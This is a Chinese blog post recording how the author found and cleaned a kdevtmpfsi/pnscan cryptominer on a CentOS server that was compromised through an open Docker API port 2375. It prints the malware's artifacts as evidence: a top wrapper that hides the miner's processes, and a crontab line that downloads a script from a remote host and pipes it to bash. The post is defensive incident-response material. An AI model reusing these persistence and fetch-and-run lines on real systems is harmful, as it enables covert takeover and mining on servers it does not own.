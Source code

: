 ```yaml
---
title: pnscan挖矿病毒排查过程记录
tags: 
  - docker
  - gitlab
  - ssh
  - hexo
categories: 
  - Linux
  - 网络安全
---
```


> 记一次服务器被挖矿病毒攻击问题排查

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查

   ![1654084303957](C:\Users\sherlock\AppData\Roaming\Typora\typora-user-images\1654084303957.png)

8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可参考 [docker环境及常用镜像安装](/2022/06/06/docker环境安装/)  